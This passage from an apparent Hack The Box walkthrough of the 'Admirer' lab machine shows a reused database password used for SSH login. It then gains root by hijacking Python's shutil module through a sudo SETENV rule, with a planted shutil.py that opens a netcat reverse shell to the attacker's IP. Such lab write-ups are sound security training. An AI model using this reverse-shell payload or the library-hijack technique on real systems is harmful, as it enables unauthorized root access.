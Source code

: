The password on this _index.php_ differs from the other one:
```
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

The password works on SSH for the user _waldo_:
```
ssh waldo@10.10.10.187
```

## Privilege Escalation

The user _waldo_ can run the bash script _/opt/scripts/admin_tasks.sh_ with root privileges that was mentioned in the _admin_tasks.php_:
```
sudo -l

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

The function _backup_web_ in the script calls the Python script _/opt/scripts/backup.py_ which imports the _shutil_ library:
```
from shutil import make_archive
(...)
make_archive(dst, 'gztar', src)
```

In the output of `sudo`, the **SETENV** means that it is possible to set environment variables when executing the script.
This means by hijacking the module _shutil_ in the Python script, it is possible to replace the library with our own code and execute any command.

Creating the malicious Python library in _/dev/shm_ and calling it _shutil.py_:
```python
import os

def make_archive(a, b, c):
        os.system("nc -c bash 10.10.14.9 9001")
```

Setting the environment variable for Python to _/dev/shm_ and executing _admin_tasks.sh_ with sudo:
```
sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```

Choosing option 6 to execute _/opt/scripts/backup.py_:
```
[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
```

After choosing the option, the Python script will execute and find the library for _shutil_ in our reverse shell script and thus the listener on my IP and port 9001 starts a reverse shell as root!
